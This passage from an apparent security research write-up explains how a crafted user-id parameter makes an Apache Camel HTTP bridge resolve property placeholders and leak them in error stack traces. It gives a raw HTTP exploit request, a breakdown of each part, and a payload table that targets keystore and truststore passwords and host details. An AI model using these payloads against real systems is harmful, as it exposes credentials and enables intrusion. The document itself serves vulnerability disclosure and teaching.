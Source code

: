 ```
GET /lookup-user.php?id=3816/../?var={{java.version}}&x= HTTP/1.1
Host: victim.com
Connection: close

```

Let us break this payload appart. The parameter we supplied is *3816/../?var=\{\{java.version}}&x=*

First, we supply a user id, *3816*, whether valid, or not.
Then, */../*, which fails to resolve on the backend and thus causes a 404 Not Found response which Camel treats as an **error**, yielding our precious stack trace.
Then we supply an anchor sign, *?*, so we can pass parameters to the URI that will be built and sent to Camel.
Then, follows a parameter with an arbitrary name *var* and value of a property placeholder which will be resolved by the value of *java.version* in the System Properties of Camel's JVM Context.
Finally, we supply another parameter with the arbitrary name *x* but **no value**, so that when the endpoint URI is formed, anything that is appended to our payload is parsed as the value of *x*. Neat, huh?

That's it, we constructed an exploit.

The URI that will be constructed by Application A and sent to Camel is the following:

*http://applicationb.intranet.com/api/user/lookup/**3816/../?var=\{\{java.version}}&x=**/fullname?bridgeEndpoints=true*

Camel performs the request, fails to get a 200 OK response from Application B and returns a stack trace containing the following:

HttpOperationFailedInvokingException: HTTP operation failed invoking http://applicationb.intranet.com/api/user/lookup/3816/../?var=**1.8.0_181**&x=/fullname?bridgeEndpoints=true

You see it? There it lies, in bold typeface, our precious info leak!



### Yuh, seems dull, 0/10 IGN
If we investigate a bit, we can has even MOAR power.

| Payload                                                   | Value                      |
| --------------------------------------------------------- | -------------------------- |
| 3816/../?var=\{\{java.version}}&x=                        | Java Version               |
| 3816/../?var=\{\{java.runtime.version}}&x=                | Java Runtime Version       |
| 3816/../?var=\{\{javax.net.ssl.trustStorePassword}}&x=    | Trust Store Password       |
| 3816/../?var=\{\{javax.net.ssl.keyStorePassword}}&x=      | Key Store Password         |
| 3816/../?var=\{\{java.home}}&x=                           | Java Home Path             |
| 3816/../?var=\{\{jboss.server.deploy.dir}}&x=             | JBoss Deployment Directory |
| 3816/../?var=\{\{jboss.node.name}}&x=                     | JBoss Node (Host) Name     |
| 3816/../?var=\{\{user.home}}&x=                           | User Home Directory        |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |
| 3816/../?var=\{\{user.lang}}&x=                           | User Language              |
| 3816/../?var=\{\{user.country}}&x=                        | User Country               |
| 3816/../?var=\{\{os.arch}}&x=                             | OS Architecture            |
| 3816/../?var=\{\{os.version}}&x=                          | Kernel Version             |
